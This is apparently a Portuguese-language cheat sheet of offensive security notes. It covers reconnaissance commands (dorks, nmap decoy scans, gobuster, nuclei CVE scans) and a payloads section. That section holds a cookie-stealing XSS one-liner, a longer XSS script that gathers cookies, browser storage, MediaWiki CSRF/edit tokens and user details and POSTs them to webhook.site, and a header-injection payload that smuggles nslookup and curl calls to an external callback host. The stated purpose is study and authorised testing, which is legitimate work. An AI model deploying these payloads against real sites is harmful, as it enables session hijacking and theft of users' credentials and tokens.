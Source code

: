 # Anotações Importantes de Segurança

Um compilado de comandos, payloads e recursos úteis para estudos e testes de segurança.

##  Reconhecimento & Enumeração

Comandos e técnicas para coletar informações sobre um alvo.

### Dorks & Descoberta
* **Encontrar Programas de VDP (Vulnerability Disclosure Program):**
    ```
    "Vulnerability Disclosure Program" VDP "site:uk -bugbount -hackerone -intigriti -bugcrowd -yeswehack"
    ```
* **Repositório de Google Dorks:**
    * [Dorks Faisalahmed](https://dorks.faisalahmed.me/)

### Escaneamento de Rede e Subdomínios
* **Nmap - Scan DNS para vazamento de informações:**
    ```bash
    # Verifica o servidor DNS (porta 53/UDP) por possíveis exposições de dados sensíveis.
    nmap -sU -p 53 --script=dns-nsid 10.129.2.48
    ```
* **Nmap - Scan Avançado:**
    ```bash
    # Scan com detecção de versão (-sV), usando decoys (D RND:2), múltiplos tipos de scan e user-agent customizado.
    nmap 10.129.4.84 -sV -D RND:2 -Pn -sS -sU --max-retries=2 --script-args http.useragent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36" -p-
    ```
* **Descoberta de Diretórios com Gobuster:**
    ```bash
    # Força bruta de diretórios com headers customizados de Host e Cookie.
    gobuster dir -u https://teste.com -w /usr/share/wordlists/dirb/common.txt  -t 50 -H 'Cookie: ASP.NET_SessionId=whvgzv2plsyzvnglugu2kxyc;' -k -x html,php,js,aspx,bat,txt,zip
    ```

### Extensões úteis para Browser
* `dotgit`
* `Wappalyzer`
* `Shodan`
* `DNSlytics`


## Análise de Vulnerabilidades

Ferramentas para escanear ativamente por falhas de segurança conhecidas.

* **Instalação do ZAP (Zed Attack Proxy):**
    ```bash
    # Uma ótima ferramenta para scan de aplicações web.
    sudo apt install zaproxy
    ```
* **Nuclei - Scan de CVEs em subdomínios:**
    ```bash
    # Encontra subdomínios, verifica quais estão ativos e roda um template específico do Nuclei.
    subfinder -all -d alvo.com -recursive | httpx | nuclei -nmhe -t ./nuclei-templates/http/cves/(CVE)/CVE-2025-0133.yaml
    ```
* **Nuclei - Scan geral de CVEs:**
    ```bash
    nuclei -t cves/ -u [http://alvo.com] -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
    ```
* **Nuclei - Scan focado em tecnologia (ex: Moodle):**
    ```bash
    nuclei -u [https://alvo.com]) -tags moodle
    ```


## Payloads & Exploração

Snippets de código para explorar vulnerabilidades como XSS, SSRF, etc.

### Cross-Site Scripting (XSS)

* **Payload XSS Simples para Roubo de Cookies:**
    ```html
    <img src="x" onerror="fetch('[https://webhook.site/085d7083-a25c-41c6-beb6-113d2b58e605](https://webhook.site/085d7083-a25c-41c6-beb6-113d2b58e605)', {method:'POST', body:'<cookie>='+document.cookie})">
    ```

* **Payload XSS Avançado para Exfiltração de Dados:**
    * Este script captura cookies, `localStorage`, `sessionStorage`, tokens específicos de MediaWiki e informações do usuário, enviando tudo para um webhook.
    ```javascript
    var data = {};
    data.cookie = document.cookie;
    data.localStorage = {};
    data.sessionStorage = {};
    data.mediawikiTokens = {};
    data.userInfo = {};

    // Capturar todos os dados do localStorage
    for(var i=0; i<localStorage.length; i++) {
        var key = localStorage.key(i);
        data.localStorage[key] = localStorage.getItem(key);
    }

    // Capturar todos os dados do sessionStorage
    for(var i=0; i<sessionStorage.length; i++) {
        var key = sessionStorage.key(i);
        data.sessionStorage[key] = sessionStorage.getItem(key);
    }

    // Tenta obter tokens do MediaWiki especificamente
    try {
        if(typeof mw != 'undefined' && mw.user && mw.user.tokens) {
            data.mediawikiTokens = {
                editToken: mw.user.tokens.get('editToken'),
                csrfToken: mw.user.tokens.get('csrfToken'),
                watchToken: mw.user.tokens.get('watchToken')
            };
        }
    } catch(e) {}

    // Informações do usuário
    try {
        if(typeof mw != 'undefined' && mw.config) {
            data.userInfo = {
                userName: mw.config.get('wgUserName'),
                userId: mw.config.get('wgUserId'),
                pageName: mw.config.get('wgPageName'),
                namespace: mw.config.get('wgCanonicalNamespace'),
                revisionId: mw.config.get('wgRevisionId'),
                articleId: mw.config.get('wgArticleId')
            };
        }
    } catch(e) {}

    // Envia os dados coletados para o webhook
    fetch('[https://webhook.site/ce0f8999-b412-490d-aa38-f94652be63b0](https://webhook.site/ce0f8999-b412-490d-aa38-f94652be63b0)', {
        method: 'POST',
        headers: {'Content-Type': 'application/json'},
        body: JSON.stringify(data)
    });
    ```

### Out-of-Band (OOB)

* **Payload OOB para testar em Headers (Blind SSRF, etc):**
    * Tenta forçar uma resolução DNS e uma requisição HTTP para um domínio externo. Útil para injetar em cabeçalhos como `User-Agent`, `Referer`, `X-Forwarded-For`, etc.
    ```bash
    # :r: é um placeholder para o valor que será injetado
    :r:nslookup -q=cname hitvibmacavit642a1.bxss.me|curl hitvibmacav
    ```

## Ferramentas & Recursos Adicionais

Links para repositórios e ferramentas úteis.

- [SHCheck - Shell/Header Vulnerability Checker](https://github.com/santoru/shcheck)

